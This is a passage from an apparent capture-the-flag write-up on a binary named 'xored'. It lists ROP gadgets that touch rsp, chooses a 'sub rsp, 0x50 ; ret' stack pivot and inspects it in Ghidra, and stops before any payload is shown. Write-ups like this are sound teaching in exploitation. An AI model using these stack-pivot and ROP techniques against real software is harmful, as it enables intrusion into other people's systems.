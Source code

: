 Another option is to look for something that manipulates `rsp` to give us additional ROP jumps. I use pwntools' `ROPgadget` to check for gadgets

```sh
$ ROPgadget --binary xored | grep rsp
0x0000000000401263 : adc byte ptr [rbp - 0x3d], bl ; sub rsp, 0x50 ; ret
0x0000000000401229 : add rsp, 0x10 ; pop rbp ; ret
0x0000000000401492 : add rsp, 0xd0 ; pop rbp ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x000000000040151b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004014fd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040151d : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000401266 : sub rsp, 0x50 ; ret
0x000000000040151c : sub rsp, 8 ; add rsp, 8 ; ret
```

`0x0000000000401266 : sub rsp, 0x50 ; ret` looks promising. this will subtract 0x50 from `rsp` and actually place the stack pointer inside our buffer, meaning that we can construct our ROP chain there. (the next return pointer is always popped off `rsp`) The buffer position will probably be 160-0x50 because that's the numbers we know. let's just make python figure out the actual position, I don't do math in multiple bases.

Ackhtually, let's look at the gadget in ghidra for fun and learning.

```
                             LAB_00401260                                    XREF[1]:     0040123f(j)  
        00401260 48 83 c4 10     ADD        RSP,0x10
        00401264 5d              POP        RBP
        00401265 c3              RET
        00401266 48              ??         48h    H
        00401267 83              ??         83h
        00401268 ec              ??         ECh
        00401269 50              ??         50h    P
        0040126a c3              ??         C3h
        0040126b 00              ??         00h
        0040126c 00              ??         00h
        0040126d 00              ??         00h
        0040126e 00              ??         00h
        0040126f 00              ??         00h
``` 

at 0x00401266 It's not even disassembled as part of a function. Surely someone hasn't put it there for us to find?
Disassembling it manually in Ghidra shows indeed the same as the ROPgadget utility. You will probably not find this gadget this readily in every case! ;-)

```
        00401266 48 83 ec 50     SUB        RSP,0x50
        0040126a c3              RET
```

### Testing the pivot gadget. What could possibly go wrong?
